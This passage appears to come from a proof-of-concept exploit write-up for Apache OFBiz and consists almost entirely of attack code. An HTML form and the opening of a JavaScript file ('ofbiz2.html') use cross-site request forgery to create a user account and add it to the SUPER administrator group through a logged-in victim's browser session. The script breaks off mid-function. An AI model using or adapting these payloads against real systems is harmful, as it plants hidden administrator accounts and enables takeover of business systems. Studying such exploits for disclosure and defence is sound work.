 ```
  <input type="hidden" name="enabled">
  <input type="hidden" name="partyId">
  <input type="hidden" name="userLoginId" value="csrftest">
  <input type="hidden" name="currentPassword" value="password">
  <input type="hidden" name="currentPasswordVerify" value="password">
  <input type="hidden" name="passwordHint">
  <input type="hidden" name="requirePasswordChange" value="N">
  <input type="hidden" name="externalAuthId">
  <input type="hidden" name="securityQuestion">
  <input type="hidden" name="securityAnswer">
  </form>
  <form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
  <input type="hidden" name="userLoginId" value="csrftest">
  <input type="hidden" name="partyId">
  <input type="hidden" name="groupId" value="SUPER">
  <input type="hidden" name="fromDate_i18n">
  <input type="hidden" name="fromDate">
  <input type="hidden" name="thruDate_i18n">
  <input type="hidden" name="thruDate">
  </form>
</body>
</html>


```


ofbiz2.html

```
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";

function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
```